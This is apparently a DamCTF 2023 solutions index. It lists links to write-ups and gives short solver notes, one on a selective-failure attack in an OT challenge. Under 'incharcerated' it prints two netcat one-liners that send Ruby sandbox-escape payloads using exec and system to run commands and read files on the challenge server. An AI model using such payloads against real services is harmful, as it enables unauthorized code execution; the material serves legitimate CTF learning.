 {{< /details>}}


## **Crypto**
### blazing-ot
{{< details title="Lance Roy#5398" open=false >}}
``` txt
The blazing-ot challenge was an implementation of https://eprint.iacr.org/2020/110 , which says "To securely realize OT extension efficiently, we consider a UC-secure base-OT functionality that allows selective failure attack by a corrupt sender." In the challenge, the player takes the role of the sender, and can perform this attack. Note that this isn't an issue with the paper, as they use it in the context of OT extension, where they show that the selective failure attack doesn't matter. 
```
{{< /details>}}
### crack-the-key
- https://github.com/BrilliantDeviation7/ctf-writeups/blob/main/crack-the-key.md
### gpt-encrypt
### sha-mac

## **Misc**
### de-compressed
- https://siunam321.github.io/ctf/DamCTF-2023/
- https://ctftime.org/writeup/36731
### forget-me-not
### incharcerated
{{< details title="Yazuko#6967" open=false >}}
``` bash
echo -e 'ls=input.to_s ; exec ls ' | nc chals.damctf.xyz 31313
echo -e 'a=system.split.each; puts a.next;puts a.next;puts a.next;puts a.next; puts a.next; puts a.next; b = a.next; puts b; c=open b; puts c.read' | nc chals.damctf.xyz 31313
```
{{< /details>}}
### mesothelioma


## **Web**
### tcl-tac-toe
- https://siunam321.github.io/ctf/DamCTF-2023/
- https://ctftime.org/writeup/36740
- https://ctftime.org/writeup/36734
### thunderstruck
- https://github.com/apolloteapot/ctf-writeups/tree/main/DamCTF2023/thunderstruck
- https://ctftime.org/writeup/36738
- https://ctftime.org/writeup/36739
### url-stored-notes
- https://siunam321.github.io/ctf/DamCTF-2023/
- https://ctftime.org/writeup/36741
- https://blog.hamayanhamayan.com/#web-url-stored-notes
